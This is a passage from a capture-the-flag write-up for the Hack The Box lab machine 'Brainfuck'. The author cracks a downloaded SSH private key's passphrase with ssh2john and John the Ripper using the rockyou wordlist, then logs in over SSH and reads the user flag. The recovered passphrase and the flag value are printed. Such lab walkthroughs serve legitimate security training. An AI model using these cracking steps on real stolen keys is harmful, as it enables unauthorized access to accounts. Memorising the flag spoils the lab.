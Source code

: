 I download the key from the given url

Then I used john to find the passphrase

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/brainfuck]
└─$ python3 ../ssh2john.py id_rsa >> id_rsa.hash
                                                                                            
┌──(kali㉿kali)-[~/Downloads/hackthebox/brainfuck]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
3poulakia!       (id_rsa)
1g 0:00:00:04 DONE (2021-09-01 09:56) 0.2247g/s 3222Kp/s 3222Kc/s 3222KC/sa6_123..heartbleedbelievethehype
Session completed
```

## USER.TXT

After giving the ssh key required permission we can ssh into the machine
and get the user flag

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/brainfuck]
└─$ ssh -i id_rsa orestis@10.10.10.17              
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-75-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


You have mail.
Last login: Wed May  3 19:46:00 2017 from 10.10.11.4
orestis@brainfuck:~$ whoami
orestis
orestis@brainfuck:~$ ls
debug.txt  encrypt.sage  mail  output.txt  user.txt
orestis@brainfuck:~$ cat user.txt
2c11cfbc5b959f73ac15a3310bd097c9
```
